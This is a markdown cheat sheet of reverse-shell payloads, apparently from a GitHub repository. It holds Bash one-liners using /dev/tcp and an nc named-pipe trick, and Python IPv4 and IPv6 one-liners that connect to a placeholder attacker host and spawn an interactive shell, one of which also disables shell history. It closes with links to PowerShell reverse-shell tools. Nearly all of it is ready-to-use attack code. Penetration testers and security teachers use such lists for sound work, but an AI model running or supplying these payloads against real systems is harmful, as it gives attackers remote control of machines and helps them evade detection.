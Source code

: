 # Reverse Shells

- [https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/](https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/)
- [https://gist.github.com/daniruiz/c073f631d514bf38e516b62c48366efb](https://gist.github.com/daniruiz/c073f631d514bf38e516b62c48366efb)




## Bash

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```




## Python



### IPv4

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```



### IPv6

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```




## PowerShell

* [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)
* [https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11](https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11)
* [https://github.com/tihanyin/PSSW100AVB/blob/main/ReverseShell_2022_03.ps1](https://github.com/tihanyin/PSSW100AVB/blob/main/ReverseShell_2022_03.ps1)
